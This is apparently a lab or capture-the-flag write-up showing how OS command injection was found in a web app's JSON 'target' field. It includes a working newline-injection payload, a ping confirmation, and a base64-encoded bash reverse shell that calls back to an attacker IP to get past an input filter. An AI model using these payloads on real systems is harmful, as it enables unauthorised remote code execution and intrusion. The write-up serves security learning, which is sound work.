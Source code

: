 ![Screenshot From 2025-09-16 18-17-48.png](:/997f6ecca5df4f63bb1fbff6b4c6771d)
<img width="1802" height="928" alt="Screenshot From 2025-09-16 18-17-48" src="https://github.com/user-attachments/assets/ea8e7fc9-d830-4a9c-8bc2-d729ce711bd4" />

but wait when pressing search without any input it gives -

<img width="1802" height="928" alt="Screenshot From 2025-09-16 18-19-51" src="https://github.com/user-attachments/assets/21512377-0e9a-4456-a9eb-2e9a38f65a8c" />


Now the problem is when we search for any of this file we get thier name as the response.

### Remote code execution

Here we can intercept the request in Caido and see what parameters are sent by the application :

<img width="679" height="409" alt="Screenshot From 2025-09-17 12-39-28" src="https://github.com/user-attachments/assets/68f30773-e399-46fb-b643-80198d7f40f9" />


The application is sending the data in the target field and the type of the body is json. I tried to do LFI attack but failed but when i am sending any chracter like '&' it says "Invalid Character".

<img width="1341" height="594" alt="Screenshot From 2025-09-17 12-51-38" src="https://github.com/user-attachments/assets/23f161be-98b9-4884-afec-324beb5e44ca" />


This indicates the presence of OS command injection vulnerability.

To send any command in the json type we have to enclose it in double quotes and also espace that quotes uisng ""\"" (backward slash). In linux we can seprate commands using ";" semiclonon after following this rules the working payload is :

```json
{"target":"\"\n ping -c 1 10.21.207.183 \n \""}
```

To check whether we are recieving any icmp packet or not we can use [ICMP Notifier](https://github.com/Daviey/ICMP-notifier).

```
ICMP-notifier -ip 10.21.207.183
```

Response : 

<img width="896" height="76" alt="Screenshot From 2025-09-17 13-08-31" src="https://github.com/user-attachments/assets/1ec688da-7d0f-4de6-879b-5ff99fbb205e" />


We got RCE!!

### Shell as www-data 

When I was trying to enter the reverse shell payload I was getting "Invalid Character" in the response so the simple way bypass this is using base64 encoding -

```
echo "bash -c 'bash -i >& /dev/tcp/10.21.207.183/4000 0>&1'" | base64
```

```
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yMS4yMDcuMTgzLzQwMDAgMD4mMScgCg==
```

